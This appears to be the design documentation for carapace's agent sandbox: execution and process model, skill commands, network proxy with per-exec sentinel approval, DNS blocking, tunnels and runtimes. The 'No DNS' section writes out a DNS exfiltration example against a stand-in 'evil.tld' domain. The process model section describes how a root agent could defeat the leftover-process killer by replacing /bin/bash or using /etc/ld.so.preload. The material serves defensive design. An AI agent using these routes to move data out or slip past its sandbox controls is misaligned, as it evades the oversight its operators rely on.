

# Sandbox Architecture

All agent tool invocations — script execution, shell commands, file operations — run inside a sandboxed container. carapace itself (the server) runs on the host (or in its own container/pod), but every agent action runs inside an isolated container.

## Execution model

Each session resolves to a logical sandbox identified by `sandbox_id`. By default that ID matches the session ID. When the Kubernetes warm pool is enabled, a session may instead claim a prestarted generic sandbox with a unique id such as `pool-3f9c…`, so `sandbox_id` and `session_id` can differ. The sandbox inspector in the web UI surfaces that current `sandbox_id` so claimed warm sandboxes are visible.

The active sandbox provides the agent with a workspace where it can read files, run commands, and interact with skills.



### Container capabilities

- **Shell access**: The agent runs commands via `exec` (equivalent to `docker exec` / `kubectl exec`)
- **File operations**: `read`, `write`, `str_replace` work directly on the container filesystem
- **Network access**: All outbound traffic goes through the HTTP forward proxy, which lets a domain through only once the sentinel approved it for the running exec
- **Skills**: Every skill is in the cloned knowledge repo; the commands of built skills are on `PATH` ([below](#skill-commands-on-path))
- **Workspace files**: `SOUL.md`, `USER.md`, `SECURITY.md` etc. live in the knowledge repo at `/workspace/`. Changes are persisted via `git commit` and `git push`.

### Sandbox image

The official image is built with Nix (`nix/sandbox.nix`) and has no FHS layout: `/bin` holds the tools, `/usr/bin` and `/usr/local/bin` link to it, and everything else lives in `/nix/store`. Agents still install and run ordinary software at runtime:

- **nix-ld** sits at the system loader path (`/lib64/ld-linux-x86-64.so.2`, `/lib/ld-linux-aarch64.so.1` on ARM). Dynamically linked downloads, PyPI wheels, and npm addons find their libraries in `/run/current-system/sw/share/nix-ld/lib`: the NixOS default set without systemd, plus ICU, expat, and libffi. No environment variables are involved.
- **Python** is python-build-standalone 3.14, installed as uv's managed default under `/root/.local/share/uv/python` with `python3` in `/root/.local/bin`. `UV_PYTHON_PREFERENCE=only-managed` keeps uv away from Nix interpreters. A Nix-built interpreter bypasses nix-ld and cannot load the native libraries of wheels, so none is on `PATH`; the MCP bridge `mcp` and the tunnel forwarder have their own Nix Python environment outside `PATH`.
- **Node.js 24** with npm, **uv**, Git, curl, jq, ripgrep, the usual base tools, and the sandbox CLIs (`ccred`, `cgate`, `mcp`, `setup-proxy.sh`, the tunnel forwarder `carapace-tunnel`).
- **FHS data files**: a CA bundle at `/etc/ssl/certs/ca-certificates.crt` and `/etc/ssl/cert.pem`, terminfo at `/usr/share/terminfo`, `/etc/fonts/fonts.conf` with DejaVu, and an `en_US.UTF-8` locale archive (`LANG` is `C.UTF-8`).
- **Nix**: single-user as root with flakes enabled, no build sandbox, and its own Nix database, so `nix profile` and `nix-collect-garbage` know the image's paths (which are GC roots). The `nixpkgs` registry entry is the flake's own locked nixpkgs, marked final, and the image ships that source as a valid store path, so `nix run nixpkgs#…` evaluates without downloading nixpkgs. The global flake registry is disabled, because fetching it needs a domain approval. With a builder configured, substitutes come only from the [builder cache](#builder-cache), which also passes `cache.nixos.org` through; without one, Nix substitutes from `cache.nixos.org` through the proxy, after a domain approval. Evaluating nixpkgs peaks around 1.3 GiB, so sandboxes get a 2 GiB memory limit (Docker runtime default and Helm value); the request stays at 128 MiB.

Store and installed packages live in the container layer and are gone when a sandbox is recreated.

### Process model

Grants are scoped to a session, not to a process: while a command runs, the domains and credentials the sentinel approved for it could be used by every process in the sandbox. So carapace keeps one invariant: **whenever it grants anything, no process from an earlier call is still alive in the sandbox.**

- Every `exec` (the agent's commands, but also file reads and writes, uploads and downloads, which all run through it) starts by killing every process in the container except PID 1 (the container's `sleep infinity`). Only then does the exec scope open that its boundary requests are granted to.
- If processes were killed, the agent's `exec` result ends with `Killed N leftover process(es) from earlier commands.` A running [skill profile sync](#skill-commands-on-path) is killed too, but not counted: the agent never started it.
- Background processes therefore do not survive their own `exec`. Within one command they work as usual (`./server & sleep 2; curl localhost:8000; kill %1`); across commands they don't.
- Container operations of a session run one at a time under its exec lock, so the kill never hits another operation midway. Sandbox startup runs under the startup lock instead, which every exec waits for before it kills. Pull and push from the web UI take the lock too and wait while a command runs. A few operations stay outside the lock: the web UI's git status (its read-only commands run alongside a command, a kill only fails that one refresh, and it fetches only when no command runs), reapplying the git identity after a settings change (it holds the knowledge git lock that an agent's `git push` also takes, so waiting here could deadlock; a kill only fails the settings save) and measuring workspace usage on Kubernetes (a killed `df` keeps the previous measurement).

The killer is a bash script run by absolute path (`/bin/bash`, not via `PATH`, whose directories the agent can write to; the runtimes' own `bash -c` wrapper for every exec uses `/bin/bash` too). It counts the live processes, skips zombies (PID 1 never reaps them) and sends `SIGKILL` to all of them in one `kill(-1)` call, which a forking process cannot outrun. It refuses to run if another process in the sandbox is its parent, because `kill(-1)` would take that wrapper down with it.

This guarantees that processes left behind by earlier calls, whether by accident or by a naive script that daemonizes itself, never see a later grant. It is not tamper-proof: the agent is root in the sandbox and can write anywhere, so it can replace `/bin/bash` (the killer's interpreter, and on Kubernetes also the wrapper of every exec) or preload a library through `/etc/ld.so.preload`. An agent that deliberately sets this up can neuter the kill. The planned fix is a static killer binary on a read-only mount, executed by absolute path without a shell ([#538](https://github.com/thiesgerken/carapace/issues/538)).

## Skill commands on PATH

The commands of every built skill are on the agent's `PATH`, as if it sat in a devshell. They come from a Carapace-managed Nix profile, `/nix/var/nix/profiles/carapace/skills`, separate from the agent's own `~/.nix-profile`. Its `bin` is the last `PATH` entry, so a skill command cannot shadow a tool of the image or one the agent installed.

- **What it holds.** The store paths of every skill of the owner's head that the builder built ([skills.md](skills.md#building-skills)). Two skills that expose the same command name are both left out, because Nix refuses the whole transaction otherwise; the reason is kept for `read_skill`. Removing or disabling a skill removes its commands.
- **The sync.** `nix-env -p <profile> -i -r <all paths>` sets the profile to exactly that list in one transaction, substituting missing paths from the builder's cache ([builder.md](builder.md)), and is a no-op when nothing changed. Afterwards it writes a marker, a hash of the list, next to the profile. Profile, marker and store live in the container layer and are gone with the container, like anything the agent installs ad hoc.
- **When.** Every sandbox start, resume or recreation starts a sync. Before every `exec` the leftover-process killer also reports the marker; if it differs from what the head resolves to (a new build, a pushed change), a sync starts. So a running session gets new commands on its next `exec`, and its workspace copy of a skill may be older than the commands on `PATH`. Session start and `exec` never wait for a build or a sync, and an `exec` that fails with "command not found" while `nix-env` runs gets a hint saying so. [`read_skill`](skills.md#reading-a-skill-read_skill) is the one place that waits: for the skill's build, then for a sync of the profile, so its commands are on `PATH` when it returns.
- **The killer.** The sync is an ordinary process, so the killer before the next `exec` kills it like any other; there is no exemption that a root agent could borrow. A sync that is still computing its plan is cancelled with it. The server starts the sync again right after the killer. The sync runs code the agent can influence (`/bin/nix-env` and the store live in the writable container layer), so it runs like an `exec`: with the session's env (its proxy and, with a builder configured, `NIX_CONFIG` naming only the builder's cache) and no proxy bypass. A claimed warm-pool sandbox has that env nowhere else: its pod spec carries none. `read_skill` runs its sync under the exec lock, so no killer interrupts it. A killed `nix-env` keeps every path it substituted and never switches the profile halfway, so each run continues where the last one stopped and the profile converges. An agent that runs commands back to back holds a background sync off until its first pause; that is accepted. [Measured](https://github.com/thiesgerken/carapace/issues/580#issuecomment-7122272253) with 20 skills on 4 pins (2.3 GB): a sync takes about 32 s, no background sync finishes during a burst of quick commands, and it finishes in the first gap.
- **Disk.** The skill set's store paths take 2 to 8 GB in the container layer. On Kubernetes, sandboxes request `CARAPACE_SANDBOX_K8S_RESOURCE_REQUESTS_EPHEMERAL_STORAGE` (default `2Gi`, Helm `sandbox.resources.requests.ephemeral-storage`); raise it for large skill sets, keeping in mind that every warm-pool and idle sandbox reserves it. A limit (`…_LIMITS_EPHEMERAL_STORAGE`) is off by default, because exceeding it evicts the pod.

`nix shell path:./skills/<name> -c <cmd>` always works as well, evaluating and building in the sandbox: the development loop for changes that are not pushed yet (see [skill flakes](skill-flakes.md#developing-a-skill)).

## Mounts

When a session container is created, the following mounts are configured:

### Docker mode

| Host source                 | Container path | Mode       | Purpose                      |
| --------------------------- | -------------- | ---------- | ---------------------------- |
| `sessions/{sid}/workspace/` | `/workspace/`  | read-write | Persistent session workspace |

### Kubernetes mode (StatefulSet)

Each session gets its own PVC via the StatefulSet's `volumeClaimTemplates`:

| Volume                           | Container path | Mode       | Purpose                      |
| -------------------------------- | -------------- | ---------- | ---------------------------- |
| `session-data` (per-session PVC) | `/workspace/`  | read-write | Persistent session workspace |
| `session-data` (per-session PVC) | `/tmp/`        | read-write | Persistent temp files        |

No shared PVC access — the server's data PVC is `ReadWriteOnce`.

The knowledge repo is cloned directly into `/workspace/` on first start. On container restarts the existing working tree is reused. `/tmp/` is backed by the same per-session PVC via a separate `subPath`, so temp artifacts also survive suspend and resume without provisioning a second claim. To persist changes back to the server, the agent uses `git commit` and `git push` inside `/workspace/`. Every push is evaluated by the security sentinel via a pre-receive hook.

## Network policy

All outbound traffic from sandbox containers is routed through the carapace server's HTTP forward proxy:

- Containers receive only `HTTP_PROXY` / `HTTPS_PROXY` environment variables pointing to the proxy
- No direct internet access — enforced by Docker network isolation or Kubernetes NetworkPolicy
- The proxy uses per-session token-based authentication (injected as `Proxy-Authorization` via environment setup script)
- No DNS: the sandbox cannot resolve any name itself (see below)

### No DNS from the sandbox

A resolver that forwards external names is a channel past the proxy: `getent hosts $(secret).evil.tld`, or any `getaddrinfo` call inside a script, carries data to whoever runs the authoritative server for `evil.tld`, and the sentinel never sees it. The sandbox needs no DNS:

- It reaches the server by IP, or by the name of a container on its own network. The proxy URL, the git origin (`GIT_REPO_URL`), `CARAPACE_API_URL` and `NO_PROXY` are all built from the [server address](#server-address): the server's IP on the sandbox network (Docker), its ClusterIP (Kubernetes), or `CARAPACE_SANDBOX_SERVER_HOST`.
- Proxy-aware tools send the hostname to the proxy, which resolves it on the server. pip, uv, npm, git over HTTPS and curl all work this way.
- [Tunnels](#tunnels) shadow their hosts in `/etc/hosts` with loopback addresses.

How each runtime enforces it:

- **Kubernetes**: the NetworkPolicy blocks DNS along with all other egress except the proxy and the sandbox API. That is the barrier. On top, sandbox pods get `dnsPolicy: None` with `127.0.0.1` as their only nameserver. Nothing listens there, so lookups fail immediately instead of hanging until the blocked kube-dns times out. That setting only rewrites `/etc/resolv.conf`, so it does not stop a query sent straight to a resolver's IP. Without a CNI that enforces the NetworkPolicy the sandbox has direct egress, DNS included (see [kubernetes.md](kubernetes.md#networkpolicy)).
- **Docker**: Docker's embedded DNS (`127.0.0.11`) answers only names on the network itself (other containers) for containers on an `internal` network such as `carapace-sandbox-default`. It does not forward other queries upstream (verified with a packet capture on Docker Engine 29), so carapace configures nothing extra. On another engine version, check that `getent hosts example.com` fails inside a sandbox.

Tools that insist on resolving a hostname locally before they connect fail in the sandbox. Proxy-aware clients are unaffected.

### Domain allowlisting

Domains are granted per exec, never for the whole session. The sentinel evaluates each unknown domain; if it allows one, the domain is added for the current exec call. If escalated, the user decides. Requests of one exec that arrive within a short window are reviewed together, and a decision is reused for the rest of that exec, never for the next one. The `exec` itself is not reviewed: the sandbox is the boundary, and this is where it is crossed. A command can also ask for its domains up front with [`cgate request`](#declaring-needs-up-front-cgate).

The proxy supports exact domain matching (`example.com`) and wildcard matching (`*.example.com`).

### Internal destinations

The proxy connects from the server's network position, where Postgres, Redis, the builder, the Bitwarden proxy, cluster services and your LAN are reachable, some without authentication. So the proxy refuses internal addresses: loopback, private (RFC 1918), link-local, unique-local, CGNAT and other non-global ranges (also when embedded in IPv6 as mapped, NAT64 or 6to4 addresses), the server's own addresses, and the Kubernetes API's service address. An IP literal is checked right away, so the sentinel is never asked about it. A name goes through the domain decision first and is resolved only once it is allowed, because resolving it earlier would let any process send data out in DNS queries for names nobody approved. The proxy then checks every address the name resolves to and connects to a checked address, not the name again, so a second DNS answer cannot swap in an internal one. A refusal is a `403` whose body names the settings below but not the internal address, and the session shows it as a refused domain marked *internal*, with that reason, not as a sentinel denial. `cgate request` checks its domains and tunnel hosts the same way: an IP literal before the review, a name right after the sentinel allowed it, so the command fails with this message instead of a bare `403` on its first connection.

Skills that should reach internal hosts anyway, say a homelab, need the operator to allow them:

| Setting | Helm value | Matches |
| --- | --- | --- |
| `CARAPACE_SANDBOX_PROXY_ALLOWED_NETWORKS` | `sandbox.allowedInternalNetworks` | addresses in these CIDRs |
| `CARAPACE_SANDBOX_PROXY_ALLOWED_HOSTS` | `sandbox.allowedInternalHosts` | these host names exactly (case-insensitive, no wildcards), whatever they resolve to |

Both are JSON lists. Allowing a destination only lifts the internal-address block; every domain still needs an approval like any other. For a home network in Docker Compose, in `.env`:

```env
CARAPACE_SANDBOX_PROXY_ALLOWED_NETWORKS=["192.168.178.0/24"]
CARAPACE_SANDBOX_PROXY_ALLOWED_HOSTS=["paperless.home.arpa"]
```

Or in Helm values:

```yaml
sandbox:
  allowedInternalNetworks: ["192.168.178.0/24"]
  allowedInternalHosts: ["paperless.home.arpa"]
```

Prefer exact hosts or narrow CIDRs over your whole LAN, and never allow the cluster's service or pod ranges or the Compose network as a whole: that reopens Redis, Postgres and the builder API to any approved domain that resolves there.

### Builder cache

`cache.carapace.internal` is the one destination the proxy reaches without a domain decision and despite being internal: it maps that name to the [builder's binary cache](builder.md#binary-cache) (`CARAPACE_BUILDER_CACHE_URL`). Only plain-HTTP `GET` and `HEAD` of cache paths pass (`/nix-cache-info`, narinfos, NARs); anything else, and `CONNECT`, is a `403`. So `nix run nixpkgs#hello` costs no sentinel call per download, and the mapping reaches nothing on the builder but the cache.

Sandboxes get the matching Nix settings in `NIX_CONFIG`: the cache as the only substituter, the builder's and the upstreams' public keys as the trusted keys (so an unsigned or wrongly signed path is refused), `max-substitution-jobs = 1` and `narinfo-cache-negative-ttl = 30`, because Nix otherwise remembers a missing path for an hour. The server fetches the keys from the builder's `/info` whenever it assigns a sandbox to a session, so a builder with a new key is picked up by the next sandbox. With a builder configured but not answering, the sandbox does not start, and the error says so: substituting from anywhere else would quietly put every download behind the domain gate. The agent is root in its sandbox and can override `NIX_CONFIG`. That only changes its own sandbox: any other substituter is an ordinary destination that needs a domain approval.

## Declaring needs up front: `cgate`

A command can ask for everything it will need before it starts its work, so the sentinel decides once with the whole `exec` in view instead of once per request. Generated skill wrappers do this; any process may.

```sh
cgate request --domain api.example.com --domain '*.cdn.example.com' \
  --credential personal/api-key --store-path /nix/store/...-my-skill
```

After approval the domains are reachable, the [tunnels](#tunnels) are open and `ccred get` returns the credentials without another review, until the `exec` ends. A domain or credential that was not declared still works: it reaches the sentinel through the proxy or `ccred` as a short follow-up that does not repeat the command. Follow-ups are tracked per `exec`, so the first request of the next `exec` always shows its command, also when parallel tool calls run their `exec`s one after the other.

A declaration is a batching hint and carries no trust. The sentinel judges it like the single requests, and sees the caller's store path. Whether that path matches what was built for the current head is not checked yet and is reported as unknown. A process in the sandbox can claim any store path; such a check would cover the honest development case, where `nix shell path:./skills/x -c cmd` runs workspace code that differs from the committed skill.

### CLI contract

Wrappers generated by older versions of the Nix helpers call `cgate` from images of newer releases, so this contract only grows:

| | |
| --- | --- |
| Invocation | `cgate request [--domain D]... [--credential VAULT_PATH]... [--oauth VAULT_PATH]... [--tunnel HOST:PORT]... [--store-path PATH]` |
| `--domain` | A host name, or `*.` plus a name of at least two labels (`*.example.com`), repeatable. A bare `*`, `*.com`, a URL or a port is rejected. |
| `--credential` | A vault path (`<backend>/<id>`), repeatable. Approved as the password value, the one `ccred get` returns without flags. |
| `--oauth` | The vault path of an OAuth entry, repeatable. Approved as its access token, the one `ccred get --access-token` returns. |
| `--store-path` | The wrapper's own Nix store path, `/nix/store/<32-character hash>-<name>` and nothing after it. Optional; anything else is rejected. |
| `--tunnel` | `HOST:PORT` with an exact host name (not an IP address) and a port from 1 to 65535, repeatable. Approved like a domain request for that host; open when `cgate` returns. |
| Exit status | `0` approved (also when everything was approved earlier in this `exec`), `1` denied, failed or a tunnel did not open, with the reason on stderr (`error: <reason>`), `2` usage error. |
| Environment | `CARAPACE_API_URL`, set in every sandbox. |

Under the hood `cgate` posts `{"domains": [...], "credentials": [...], "oauth": [...], "tunnels": [...], "store_path": ...}` to `POST /gate` on the sandbox API. The answer is `200` when approved, `403` with the reason as a plain-text body when denied (also when no `exec` is running, or the `exec` ended before the decision), `400` for an invalid request, `404` for an unknown credential and `502` with the forwarder's log when an approved tunnel did not open.

`ccred get <vault_path> --access-token [--refresh]` prints the access token of an OAuth entry (`GET /oauth-token/<vault_path>[?refresh=true]`). Carapace refreshes the entry when the token is about to expire; `--refresh` forces a new one, once per `exec` and entry, for a client whose token was rejected. Any other form of `ccred get` on an OAuth entry fails with status 1: the entry holds the refresh token.

### Tunnels

A client that does not speak HTTP (IMAP, SMTP, a database protocol) cannot use the proxy itself. `cgate request --tunnel imap.example.com:993` gets it a tunnel for the rest of the `exec`:

- The sentinel reviews a tunnel like a domain request for its host, and an approval allows that host as a domain for the `exec`. A tunnel to a host that is already allowed opens without another review: it reaches nothing the `exec` could not reach.
- Before `cgate` returns, the server maps the host to a loopback address of its own in `/etc/hosts` (`127.0.0.2`, `127.0.0.3`, …, one per host, so two hosts can share a port) and starts `/bin/carapace-tunnel` listening there on the tunnel's port. The client connects to `imap.example.com:993` as usual, keeping TLS validation and SNI. Each connection becomes a `CONNECT` through the session proxy, which checks the host like any request.
- While the tunnel is open, the host name points at loopback for every process of the `exec`: connections to the host on any other port are refused, and HTTP clients that honour the proxy keep reaching it through the proxy as before.
- When the `exec` ends, the server stops the forwarders and puts `/etc/hosts` back. Opening and closing take turns, so a tunnel approved while its `exec` ends is never opened (`403`, as for any decision that comes back after its `exec`).
- A tunnel that does not come up within ten seconds fails the request with the forwarder's log (`502`) and closes the other tunnels of the `exec` as well, so a retry starts from scratch. A refused `CONNECT` (denied host, internal address) closes the client's connection; the reason is in the forwarder's log in `/tmp/carapace-tunnels/`, which only the running command can read: the directory goes when the `exec` ends.
- The host must be a name. An IP address is refused (`400`): a client connects to it directly, so no `/etc/hosts` entry could send it through the forwarder.

### MCP

`mcp` is the bridge the commands of [`mcpCommands`](skill-flakes.md#mcp-servers) run, and usable directly. Wrappers depend on it, so its interface only grows as well:

| | |
| --- | --- |
| Server | `--url URL` (streamable HTTP) or `--stdio COMMAND` (run with `bash -c`), exactly one. |
| Credential | For `--url`: `--bearer-env VAR` sends the token in that environment variable, `--oauth VAULT_PATH` an access token from `ccred get --access-token`, with one fresh token after a `401`. |
| `--name NAME` | The server's name in usage and error messages. |
| `--list-tools [--json]` | One line per tool (name, tab, first description line), or names, descriptions and input schemas as JSON. |
| `TOOL --help`, `TOOL --schema` | The tool's flags, or its input JSON Schema. |
| `TOOL [flags]` | One flag per top-level property, named exactly like it. Strings, integers and numbers take a value, booleans are `--flag` or `--no-flag`, an array of scalars repeats its flag, anything else takes a JSON value: literal, `@file`, or `-` for stdin. `--json BODY` passes the whole argument object instead, and is an error next to any property flag. A required property missing is a usage error. A property whose name is taken (`json`, `schema`, `help`, or the `no-x` of a boolean `x`) gets no flag; `--help` lists it, and it goes in through `--json`. |
| Output | The tool's text content; its structured content as JSON when there is no text. |
| Exit status | `0` success, `1` the call failed or the tool reported an error (on stderr), `2` usage error, also an unknown tool. |

Each call is its own connection, so servers that keep state between calls do not work.

## Container lifecycle

- **Creation**: A container is created (or ensured running) when a session needs it — typically on the first tool call. Startup is serialized per session: concurrent callers, such as parallel tool calls in a fresh session, wait for the first one to finish starting the sandbox instead of each claiming or creating their own.
- **Reuse**: The container stays running for the session's duration. Multiple tool calls reuse the same container.
- **Idle timeout**: Configurable (default: 60 min). In Docker mode, idle containers are destroyed. In Kubernetes mode, the StatefulSet is scaled to 0 replicas — the PVC is retained, so venvs and workspace state survive.
- **Warm pool**: If `CARAPACE_SANDBOX_WARM_POOL_SIZE > 0`, carapace maintains that many unattached base-image sandboxes ahead of time. On Kubernetes, new sessions claim one of these warm sandboxes before falling back to cold creation. The claimed sandbox keeps its own unique `sandbox_id` (for example `pool-3f9c…`) while still being attached to the session.
- **Re-warming**: When the session needs its sandbox again after the container expired, a new container is created (Docker: fresh container with the same bind mounts; Kubernetes: StatefulSet scaled back to 1 replica, PVC still attached). Whenever a sandbox is freshly created, claimed or resumed, whatever triggered it (a command, `read_skill`, a git pull/push from the UI, or starting the sandbox or uploading a file from the web UI), carapace restores its git identity before any caller gets to use the sandbox and starts the [skill profile sync](#skill-commands-on-path). The same applies when a command finds its container gone and the sandbox is recreated for the retry, even if the runtime has already restarted the container on its own.
- **Image changes**: In Docker mode every resume recreates the container, so it always uses the configured `CARAPACE_SANDBOX_BASE_IMAGE`. In Kubernetes mode, stale warm-pool members are replaced and scaled-down session sandboxes switch to the configured image when they resume; running sandboxes are left alone (see [kubernetes.md](kubernetes.md#changing-the-sandbox-image)).
- **Reset** (`/reload`): Fully destroys the container and workspace (including the PVC in Kubernetes mode) and creates a fresh sandbox with a new git clone on the next command.

### Per-user sandbox limit

A suspended sandbox keeps its storage until its session is deleted, archived or reset, so abandoned sessions pile up. Two settings bound that per user:

- `CARAPACE_SANDBOX_MAX_PER_USER` (default `100`, `0` disables): when a session without a sandbox needs one (cold create or warm-pool claim) and its owner already holds that many, the start fails with "You have 100/100 sandboxes. Delete old sessions to start a new one." The agent sees this as a failed tool call (so do Matrix users); the web API answers `409`. Resuming or recreating a session's existing sandbox never adds one and is never refused. The check runs under the per-session startup lock only, so parallel starts of different sessions can overshoot the limit slightly.
- `CARAPACE_SANDBOX_WARN_PER_USER` (default `20`, `0` disables): from this count on, the web UI sidebar shows a warning to delete old sessions. At the hard limit it shows an error instead. The numbers come from `GET /api/sandboxes/usage`.

What counts as a sandbox depends on the runtime:

- **Kubernetes**: every session StatefulSet, running or scaled to 0 (each holds a session PVC).
- **Docker**: every session with a container or a kept workspace directory (`sessions/{sid}/workspace/`). Suspending removes the container, so an idle Docker sandbox exists only as its workspace, and resuming it recreates the container without counting as a new sandbox.

Unclaimed warm-pool members belong to no user and never count.

## Runtimes

carapace supports two sandbox runtimes, configured via `CARAPACE_SANDBOX_RUNTIME`:

### Docker

The default runtime. Uses the Docker socket (`/var/run/docker.sock`) to manage containers. Sandbox containers run on an internal Docker network (`carapace-sandbox-<instance>`, see below) with no direct internet access. If the server's own container is on a network whose name ends in `_carapace-sandbox-<instance>` (Docker Compose prefixes networks with the project name), sandboxes go there.

### Kubernetes

For cluster deployments. Sandbox sessions run as Kubernetes StatefulSets with per-session PVCs (via `volumeClaimTemplates`). Commands are executed via the Kubernetes exec API. On idle timeout the StatefulSet is scaled to 0 replicas (PVC retained); on resume it's scaled back to 1. The warm-pool claim path is currently implemented here: generic prestarted base sandboxes can be claimed for new sessions when `CARAPACE_SANDBOX_WARM_POOL_SIZE` is set. See [kubernetes.md](kubernetes.md) for full details.

Both runtimes implement the same `ContainerRuntime` interface, so the rest of carapace doesn't need to know which backend is in use.

### Instances

Several carapace servers can share one Docker daemon or Kubernetes namespace, for example a deployment and development stacks. `CARAPACE_SANDBOX_INSTANCE` (default `default`) keeps them apart: every sandbox resource (containers or StatefulSets, warm-pool members and egress-check probes) carries the label `carapace.instance=<instance>`, and a server lists only its own. Startup orphan cleanup, reconciliation, the warm pool and leftover-probe removal therefore never touch another instance's sandboxes. On Docker the instance also names the sandbox network, `carapace-sandbox-<instance>`. Container and StatefulSet names don't include it, so two instances can't run a sandbox of the same id. Session ids are random, so that only matters for a copied data dir. The value must be a valid Kubernetes label value: up to 63 letters, digits, `-`, `_` and `.`, starting and ending with a letter or digit.

### Server address

Sandboxes reach the server's proxy (`CARAPACE_SANDBOX_PROXY_PORT`, default `3128`) and sandbox API (`CARAPACE_SERVER_SANDBOX_PORT`, default `8322`) on one host:

- `CARAPACE_SANDBOX_SERVER_HOST`, a host name or IP, when set. A host name has to resolve inside the sandbox, which has no DNS beyond Docker's embedded resolver: in practice the name of a container on the sandbox network, such as a relay that forwards both ports to the server.
- Otherwise the server container's IP on the sandbox network (Docker), or the ClusterIP of `CARAPACE_SANDBOX_K8S_SERVER_SERVICE` (Kubernetes).

A server that runs outside a container has no such default and refuses to start without `CARAPACE_SANDBOX_SERVER_HOST`. There is no gateway fallback: Docker Desktop keeps the bridge gateway inside its VM, where nothing reaches a server on the Mac.

The listeners bind to loopback by default: `CARAPACE_SERVER_HOST` (main API) and `CARAPACE_SERVER_SANDBOX_HOST` (sandbox API and proxy) are both `127.0.0.1`. The server image sets both to `0.0.0.0`, so Compose and the Helm chart need nothing. A server outside a container either binds the sandbox listeners to an address the sandboxes' path arrives at, or keeps them on loopback behind a relay container on the sandbox network, as the [dev stack](development.md#how-sandboxes-reach-the-server) does.

## Docker socket

In Docker mode, carapace needs access to the Docker socket:

```yaml
services:
  carapace:
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
```

The server uses the Docker SDK for Python to manage container lifecycle, and `docker exec` for command execution.
